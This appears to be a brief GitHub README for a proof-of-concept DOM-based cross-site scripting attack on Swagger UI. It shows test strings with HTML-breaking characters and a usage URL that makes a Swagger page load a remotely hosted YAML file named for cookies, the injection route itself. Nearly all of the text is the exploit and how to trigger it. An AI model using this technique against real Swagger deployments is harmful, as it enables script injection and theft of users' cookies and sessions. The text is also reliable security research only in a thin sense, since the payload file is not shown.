 # hello2<>'"hello2
this is PoC for swagger DOM Xss :)
    <title>hi<>'"hello</title>

# usage
https://test.com/swagger_file/index.html?url=https://alharbe0.github.io/test_cookies.yaml
